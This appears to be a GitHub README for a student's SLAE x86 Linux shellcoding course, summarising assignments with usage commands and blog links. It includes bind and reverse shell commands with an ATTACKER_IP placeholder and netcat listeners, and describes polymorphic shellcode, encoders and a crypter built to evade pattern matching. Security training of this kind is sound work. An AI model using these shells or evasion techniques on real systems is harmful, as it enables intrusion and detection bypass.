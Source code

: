 <img src="SHELLCODING32.png" alt="SLAEx86" width="100"/>

# x86 Assembly Language and Shellcoding on Linux
# SLAEx86 : Student ID: PA-1191
### Assignment 1
Create a Shell Bind TCP Shellcode
- Binds to a port
- Execs shell on incoming connection
- Port number should be easily configurable
```
Implemeted the TCP Bind Shell shellcode 
Usage : 

=> gcc shellcode_with_configurable_port.c -zexecstack -fno-stack-protector -o bind_shell
=> ./bind_shell <PORT_TO_BIND>

In Victim Machine => ./bind_shell 9999 

Attacker Machine => nc 127.0.0.1 9999

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-bind-shell-shellcode.html
```
### Assignment 2
Create a Shell Reverse Tcp Shellcode
- Reverse connect to configured IP and Port
- Execs shell on incoming connection
- IP and Port should be easily configurable
```
Implemeted the TCP Reverse Shell shellcode 
Usage example : 

=> gcc shellcode_with_configurable_port.c -zexecstack -fno-stack-protector -o reverse_shell
=> ./reverse_shell <ATTACKER_IP TO CONNECT> <ATTACKER_PORT_TO_CONNECT>

Attacker Machine => nc -nlvp 8888

In Victim Machine => ./reverse_shell 127.0.0.1 8888  

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-reverse-shell.html
```
### Assignment 3
Study about Egg Hunter Shellcode
Create a working demo of the Egg Hunter
Should be configurable for different payload

### Assignment 4
Create a custom encoding scheme  like "Insertion Encoder" we showed you
Poc using execve-stack as the shellcode to encode your schema and execute
```
Implemented a custom encoder where each shellcode value is xored and duplicated to generate the final shellcode
Implemented a custom decoder to decode the encoded shellcode

Usage:
generating encoded shellcode 

Put the shellcode inside the custom_insertion_encoder.py
=> python custom_insertion_encoder.py

decoding and executing
copy and put the encoded shellcode inside the nasm file
=> nasm custom_insertion_decoder.nasm -felf32 -o custom_insertion_decoder.o
=> ld custom_insertion_decoder.o -o custom_insertion_decoder
=> ./custom_insertion_decoder

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-insertion-encoder-and.html
```
### Assignment 5
Take up at least 3 shellcode sample created using Msfpayload for linux/x86
Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
Present your analysis
```
As msfpayload is outdate, all the payloads are created using msfvenom

1. Analysis of linux/x86/adduser shellcode

2. Analysis of linux/x86/chmod shellcode

3. Analysis of linux/x86/exec shellcode

Blog : https://oxhat.blogspot.com/2019/04/analyzing-shellcode.html
```
### Assignment 6
Take upto 3 shellcode from shell-storm and create a polymorphic versions of them to beat patten matching
- The polymorphic versions cannot be larger 150% of the existing shellcode
- Bonus point for making it shorter in length than original
```
1. Implemented 2 polmorphic versions of exit() shellcode 

2. Implmented polymorphic version of cat /etc/password shellcode

3. Implemented a polymorphic and obfuscated version of commandline netcat 

Blog : https://oxhat.blogspot.com/2019/04/polymorphic-shellcodes.html
```
### Assignment 7
Create a custom crypter like the one shown in "crypters" video.
- Free to use any existing encryption schema.
- Can use any programming language.
```
1. Implemented a crypter with encrytion based on one time pad.

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-crypter.html 
```
### Additional Assignments
```
1. Implemented a shellcode for chdir() 
```
### Scripts
```
1. Implmented a bash automation script to generate shellcode from binary
usage: dump.sh binary
There is also an extended version of this inside the same directory.
Sometimes the script does not dump all the shellcode properly so the extended version is used.

2. Implemented an automation script to generate a C code with an embedded shellcode inside it.
usage : python shellcode_template.py filename.c "\x41\x41\x41x\41"
```
